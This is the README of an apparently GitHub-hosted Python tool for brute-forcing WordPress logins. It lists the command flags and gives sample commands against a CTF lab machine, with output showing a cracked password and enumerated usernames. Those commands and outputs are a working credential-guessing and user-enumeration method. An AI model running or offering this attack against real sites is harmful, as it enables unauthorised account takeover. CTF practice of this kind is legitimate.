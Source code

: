 # python-wp-bruteforce 🔥🚀
python Bruteforce login script for wordpress 👻

* -p = file path to password list file 
* -u =  username / file 
* -t = target address 

**target should should look like this http://site.com/wp-login.php**

# usage 🛸: 
## brute force with valid username 🎃:   
python3 bf.py -t http://192.168.254.107/wp-login.php  -u elliot -p /home/mivatampos/ctf/mr_robot_1/fsocity.txt  

         ____      ____ _________  ____________  ____________                         
         \   \    /   / |_____   | |______     \ |_   ______|  
          \   \/\/   /  |     ___|   |    |   _/  |    ___|         
           \        /   |    |       |    |    \  |    |     
            \__/\__/    |____|       |_________/  |____|    

                      ***********************
                      * By : intrglctcMilk  *  
                      *     -- @tmpts       * 
                      *********************** 


      [+] Attacking [+] ==> tries : 10 

      [+] **** PASSWORD FOUND ***** [+] =====> [ER28-0652] for user elliot
      [-] Time lapsed : 0.4780855178833008 seconds  [-] 
      [-] Number of attempts : 37 [-] 
      
 ## Enumarating users 🔎
( just dont provide the -p flag it will use the default "admin" password to attempt the login : \n 
python3 bf.py -t http://192.168.254.107/wp-login.php  -u usernames.txt 

         ____      ____ _________  ____________  ____________                         
         \   \    /   / |_____   | |______     \ |_   ______|  
          \   \/\/   /  |     ___|   |    |   _/  |    ___|         
           \        /   |    |       |    |    \  |    |     
            \__/\__/    |____|       |_________/  |____|    

                      ***********************
                      * By : intrglctcMilk  *  
                      *     -- @tmpts       * 
                      *********************** 


      [+] Attacking [+] ==> tries : 10 
      *** VALID USERNAME WAS FOUND *** ===> [elliot ] 
      [+] Attacking [+] ==> tries : 26 
      *** VALID USERNAME WAS FOUND *** ===> [john] 
      [+] Attacking [+] ==> tries : 40 
      *** VALID USERNAME WAS FOUND *** ===> [example] 
      [+] Attacking [+] ==> tries : 42 

      [x] *** List of valid usernames *** [x]
      
                 [+] elliot [+]
                 [+] john [+]
                 [+] example [+]





